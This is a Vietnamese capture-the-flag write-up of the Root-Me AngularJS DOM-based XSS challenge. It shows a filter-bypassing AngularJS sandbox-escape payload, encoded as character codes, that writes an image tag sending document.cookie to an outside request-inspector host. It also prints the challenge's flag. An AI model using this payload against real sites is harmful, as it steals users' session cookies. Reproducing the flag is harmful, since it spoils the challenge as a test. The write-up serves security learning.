







# Write up challenge XSS DOM Based - AngularJS

Tác giả:
- **Nguyễn Mỹ Quỳnh**  

  
[Link Challenge](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-AngularJS) 
 

Truy cập challenge ta thấy có một ô input, sau nhiều lần nhập thử các input khác nhau cũng như cehfn thử các câu lệnh, em nhận thấy các dấu nháy cũng như `<>` đều bị lọc 
  Không còn cách nào khác ngoài việc search tìm cách taassn công với AngularJS. Và đây là kết quả tìm được cú phasp sau

 

 

Thử chèn câu lệnh khai thác của ta theo cú pháp trên, thay kí tự bằng mã decimal 

    {{x=valueOf.name.constructor.fromCharCode;constructor.constructor(x(100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,34,60,105,109,103,32,115,114,99,61,39,104,116,116,112,115,58,47,47,114,101,113,117,101,115,116,105,110,115,112,101,99,116,111,114,46,99,111,109,47,105,110,115,112,101,99,116,47,48,49,102,122,103,53,99,55,53,104,107,103,48,121,119,54,100,99,102,122,114,103,118,121,98,100,47,34,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,43,34,39,62,34,41,59))()}}

 

Chèn thành công 

 
 

 

Nhận được request chứa cookie của user

 

Tiến hành gửi url chứa ảnh lỗi cho admin có được flag và decode:

 

Submit thành công 

  

> **Flag:** rootme{@NGu1@R_J$_1$_C001}

